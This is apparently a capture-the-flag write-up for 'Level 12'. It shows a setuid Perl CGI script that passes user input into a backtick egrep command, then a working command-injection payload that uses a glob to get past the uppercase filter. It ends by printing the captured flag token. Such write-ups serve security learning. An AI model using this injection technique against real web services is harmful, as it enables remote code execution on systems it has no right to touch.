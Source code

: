 # Level 12

## Resolution

As `level12`, running `ls` gives us a perl script...

```perl
  $> cat level12.pl 

  #!/usr/bin/env perl
  # localhost:4646
  use CGI qw{param};
  print "Content-type: text/html\n\n";    

  sub t {
    $nn = $_[1];
    $xx = $_[0];
    $xx =~ tr/a-z/A-Z/;
    $xx =~ s/\s.*//;
    @output = `egrep "^$xx" /tmp/xd 2>&1`;
    foreach $line (@output) {
        ($f, $s) = split(/:/, $line);     
        if($s =~ $nn) {
            return 1;
        }
    }
    return 0;
  }

  sub n {
    if($_[0] == 1) {
        print("..");
    } else {
        print(".");
    }
  }

  n(t(param("x"), param("y")));
```

> This script is running on `<VM-IP>:4646` and takes two parameters, the second being useless we can omit it.


If we look closer, we can get more details about the other parameter...

```perl
    $xx = $_[0];
    $xx =~ tr/a-z/A-Z/;
    $xx =~ s/\s.*//;
    @output = `egrep "^$xx" /tmp/xd 2>&1`;
```

> Before being evaluated by [`egrep`](https://linux.die.net/man/1/egrep), some regex are applied on it. First, it converts any lowercase character into its uppercase counterpart then, if any whitespace character is found in the output, it removes everything starting this character to the end of the string.

In order to keep our input intact we must only use uppercase letters and avoid whitespaces. If we look for more details about this script with `ls -l` ...

```shell
  $> ls -l
  total 4
  -rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
```

This file is owned by `flag12` which means we only have to make this script execute `getflag` to pass this level.

```shell
  $> echo "getflag > /tmp/password" > /tmp/GETFLAG
  $> chmod 777 /tmp/GETFLAG
```
> We must add at least execution rights on this file to be able to run it without the need of `sh` or `bash`.

Once that's done, last step is asking the script to execute our file using `curl`.

```shell
  $> curl 'http://<VM-IP>:4646?x=`/*/GETFLAG`'
```

> Quotes surrounding the url are important to avoid the shell to interpret what we are assigning to `x` and the `*` allows us to get to the `GETFLAG` file without specifying the `/tmp/` folder which does not respect the first condition.

Finally, all we have to do is retrieving the password from the file we stored the `getflag` feedback into.

```shell
  $> cat /tmp/password
  Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

So, `g1qKMiRpXf53AWhDaU7FEkczr` is the flag for this level.

## Ressources

- [`egrep`](https://linux.die.net/man/1/egrep)